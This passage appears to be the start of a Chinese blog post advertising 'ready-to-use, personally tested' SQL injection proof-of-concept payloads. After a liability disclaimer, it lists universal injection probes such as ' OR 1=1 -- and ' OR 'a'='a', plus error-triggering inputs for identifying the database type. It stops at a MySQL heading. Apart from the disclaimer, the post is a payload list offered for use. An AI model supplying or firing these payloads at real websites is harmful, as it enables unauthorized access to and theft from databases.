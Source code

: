 #  拿来即用SQL注入POC，亲测好用   
原创 锐鉴安全  锐鉴安全   2025-04-26 03:38  
  
声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
  
关注公众号，设置为星标，  
不定期有宠粉福利  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RLTNmn7FBP4ricRiaXQ6WVVlTAgCW8HUbC2rHkicA2rpDNEPAGyiatRibqB9LN5NyHcqLCmbibM1siaumqF5Yu6UtSsYA/640?wx_fmt=png&from=appmsg "")  
  
Part-01  
  
背景  
  
    根据测试过程中发现sql注入漏洞，总结并分享一份针对不同数据库的poc清单。  
  
  
Part-02  
  
SQL注入POC  
  
一、基础探测通用POC  
  
适用场景：快速验证是否存在注入点  
  
  
所有数据库通用  
  
' OR 1=1 --   
  
" OR 1=1 --   
  
' OR 'a'='a'   
  
' || 1=1 --   
  
  
 触发错误判断数据库类型  
  
' HAVING 1=1 -- # 触发错误  
  
' AND (SELECT 1 FROM fake_table) -- # 触发表不存在错误  
  
  
二、按数据库类型详细POC  
  
1. MySQL/MariaDB  